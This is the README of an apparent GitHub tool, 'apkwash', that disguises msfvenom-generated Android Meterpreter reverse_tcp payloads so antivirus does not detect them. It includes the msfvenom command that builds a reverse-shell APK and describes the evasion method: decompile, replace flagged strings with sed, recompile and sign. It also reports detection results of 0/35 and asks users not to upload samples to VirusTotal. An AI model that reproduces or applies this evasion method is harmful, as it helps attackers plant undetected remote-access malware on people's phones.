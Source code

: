 # apkwash
Android APK Antivirus evasion for msfvenom generated payloads.
<br><br>
<b> -- Please do not upload "washed" files to VirusTotal.com -- </b><br>
<br>
<br>
<b> Tested on Kali linux rolling. </b><br>
<br>
<br>
<b>Setup:</b><br>
apt-get update && apt-get upgrade
chmod +x apkwash<br>
mv apkwash /usr/local/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's /usr/local/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<b>NOTE:</b> If wanting to customize each signature, then remove the keystore before running the script.<br>
<br>
<b>Usage:</b><br>
apktool \<payload>.apk<br>
<br>
<b>Input:</b><br>
This script takes a msfgenerated payload as input.<br>
Ex: msfvenom -p android/meterpreter/reverse_tcp LHOST=\<IP> LPORT=\<PORT> -o \<payload>.apk<br>
<br>
<b>Output:</b><br>
washed_\<payload>.apk<br>
<br>
<b>Antivirus detection:</b><br>
0/35 on nodistribute - 16Feb17<br>
Verified for AVG mobile<br>
Verified for Kaspersky mobile<br>
<br>
<b>Modifiations</b><br>
Feel free to open the script and make improvements. This script basically utilizes APKTool to open the package, uses sed to replace strings that flag AV, recompiles, then signs.<br>
<br>
<br>
<b>Files</b><br>
/tmp/payload    (Main files to review: AndroidManifest.xml and the smali files)
<br>
<br>
<b>Debugging</b><br>
Comment out the removal of the /tmp/payload directory to see the file structure that was compiled.<br><br><br>
<b>If you are seeing other "Payload".smali files in /tmp/payload/smali/com/var1/var2/ then be sure you have an updated system. I have found an older msfvenom version output a different payload that will be flagged by AVG (1/35 on nodistribute). Just making sure you are completely updated should resolve this.</b>
